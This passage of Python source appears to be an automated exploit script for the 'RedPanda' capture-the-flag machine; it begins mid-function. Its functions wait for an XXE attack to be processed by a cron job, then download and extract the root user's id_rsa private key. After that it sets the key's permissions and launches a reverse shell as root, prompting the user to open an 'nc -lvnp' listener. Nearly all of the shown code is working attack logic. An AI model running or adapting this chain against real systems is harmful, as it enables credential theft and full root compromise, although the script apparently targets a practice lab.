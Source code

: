```python
            run_redpanda_command(command, inyection)
            log.info(command)
        
        # kill webserver process
        server_process.kill()
        
        time.sleep(2)
        log.success('Files uploaded.')
        
    except Exception as error:
        progress.failure(f'{error} ocurred.')

# wait for log file processing
def xxe_attack_processing(args, progress):
    time.sleep(2)
    progress.status(f'Wait for XXE attack processing')

    for i in range(0, 130):
        time.sleep(1)
        progress.status(str(i) + ' (*/2 * * * * cron process)')
    log.success('Successful XXE attack.')

# download .xml with processed data and extract key
def download_and_extract_key(args, progress, local_commands, remote_commands):
    time.sleep(2)
    progress.status('Downloading .xml file to extract id_rsa private key (root user)') 

    # share webserver to local machine for specific time
    run_redpanda_command('share id_rsa_file', remote_commands)
    
    time.sleep(1)
    # wait to download id_rsa to redpanda machine
    run_local_command(local_commands['download id_rsa'])

    time.sleep(2)
    log.success('id_rsa_file downloaded')
    
    time.sleep(2)
    progress.status('Extracting private key')
    
    # extract id_rsa
    id_rsa_file = BeautifulSoup(open('id_rsa_file'), features='xml')
    id_rsa_content = id_rsa_file.xxe.string + '\n' # Important add '\n'!
    with open('id_rsa_root', 'w') as file:
        file.write(id_rsa_content)
    
    # assign permisisons to id_rsa 
    run_local_command(local_commands['assign permissions'])
    run_redpanda_command('kill server', remote_commands)

# create reverse shell coonnection
def reverse_shell(args, progress, local_command):
    time.sleep(1)
    progress.status('Starting reverse shell process')
    
    # listen mode to receive the shell
    time.sleep(1)
    print(f'\n[+] Open port {args.port} to receive shell. (e.g nc -lvnp {args.port})')
    input('Press to continue...')
    
    # execute reverse shell like root
    run_local_command(local_command)

```